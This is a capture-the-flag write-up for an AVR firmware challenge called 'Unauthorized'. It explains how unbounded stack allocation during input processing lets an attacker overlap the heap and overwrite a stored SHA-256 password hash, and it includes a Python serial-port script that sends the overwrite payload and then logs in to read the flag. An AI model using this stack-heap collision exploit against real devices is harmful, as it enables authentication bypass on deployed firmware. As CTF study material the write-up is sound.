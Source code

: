 ## Unauthorized (100)

### Description

Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.

### Write-up

This task is a little bit more interesting, it contains some control-flow integrity parts and anti fault injection counter mesures, which can be nice obstacles in real firmware.

![unauth](images/unauth1.png)

Here we can see function which takes number as parametr and returns pointer, with high probability that is *malloc*, and if we will look to [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can confirm this.

And among code in *malloc.c* we see one interesting comment:

	* Thus, all possible stack frames of interrupt routines that could
 	* interrupt the current function, plus all further nested function
 	* calls must not require more stack space, or they'll risk to collide
 	* with the data segment.

Really?

The point is that diring input proccessing we can specify input size which is dynamiclly allocated on stack without any limitation, using this unsafe feature we can easily overlap stack and heap segments and overwrite stored data.

Next we should look how authentication is done, among functions code we can see quite known constants (**0x6A09E667**) which means that sha256 is used for password verification. All user hashes is allocated on heap and have constant position after startup, also we need to know is initial stack value , for this porpuse we can count stack frames from initial startup and pridict heap allocatr, but we no need to suffer, becase we can find all this using debugger, we used Atmel AVR Studio which is quite good for such tasks.

```python
target_address=0x3023-0x22  #location of pass hash (backdoor user)
sp_base=0x3ebf 				#taked from debugger
addr_diff=sp_base-target_address

with serial.Serial('/dev/ttyUSB0',115200,timeout=1) as tty:
    tty.write("\n")
    read_until(tty,"Expected format:")
    
    n1=len(pass_hash)
    n2=addr_diff-len(str(n1))-len(":")-len(str(addr_diff))-len(":")-n1
    
    print "send payload "+str(n1)+":"+str(n2)+":"+repr(pass_hash)
    tty.write(str(n1)+":"+str(n2)+":"+pass_hash+"1\n")
    read_until(tty,"Unknown user")
    
    print "send pass: "+str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw
    tty.write(str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw+"\n")
    read_until(tty,"Your flag is")
    print tty.readline()
```

So, we just send two command, first one overwrite stored hash and second one we succeffuly pass crafted authentication, we heve another one flag and can move on to next challange, full script can be found among files in github repository.
